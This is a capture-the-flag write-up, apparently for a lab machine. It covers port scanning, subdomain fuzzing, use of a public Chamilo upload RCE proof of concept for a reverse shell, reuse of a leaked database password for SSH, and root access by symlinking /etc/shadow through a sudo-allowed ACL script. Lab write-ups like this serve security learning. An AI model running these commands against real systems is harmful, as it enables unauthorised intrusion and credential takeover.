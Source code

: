 # Report

## Port Discovery with Nmap

First of all, I used Nmap and discovered ports 80 and 21.

```plaintext
Starting Nmap 7.80 ( https://nmap.org ) at 2024-07-22 00:59 -03
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: eLEARNING
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.63 seconds
```

## Vulnerability Scanning

I scanned for vulnerabilities but found nothing. After trying many things, such as HTTP server vulnerability checks and URL path brute force, I attempted a DNS brute force using FUZZ.

```plaintext
ffuf -w ../wordists/subdomains-top1million-20000.txt -H "Host: FUZZ.permx.htb" -u http://10.10.11.23 -fw 18
```

This returned:
```plaintext
www                     [Status: 200, Size: 36178, Words: 12829, Lines: 587]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353]
```

## Discovery of Chamilo Application

The new domain has an application called Chamilo. After searching for vulnerabilities in this application, I found an RCE vulnerability.

I downloaded `chamilo-lms-unauthenticated-big-upload-rce-poc` and received a reverse TCP communication.

## Accessing the mtz User Folder

I found the Chamilo application folder, where there is the configuration file. In this file, I found the username and password for the Chamilo database.


```
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```


I tried the password with user mtz on SSH and BAAAM! The `user.txt` file was in the `/home/mtz` folder.


logged on mtz, i just used  `sudo -l` and saw that i have sudo permission for file `/opt/acl.sh`

```
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

reading the acl.sh file i conclude that we can just bypass the setfacl command using a `target` with a symbolic link
i tryied  first with root.txt file, but no success

```
# didnt work
ln -s /root /home/mtz/root_link
sudo /opt/acl.sh mtz rw /home/mtz/root_link/root.txt
```

so i tried with /etc/shadow to get the password
```
# works fine - shadow file is with read and write permissions for mtz user
ln -s /etc/shadow /home/mtz/shadow
sudo /opt/acl.sh mtz rw /home/mtz/shadow
```

Now i just edit the `/etc/shadow` file and used the same password that mtz for root.
Then i used `su` with the mtz password and it works

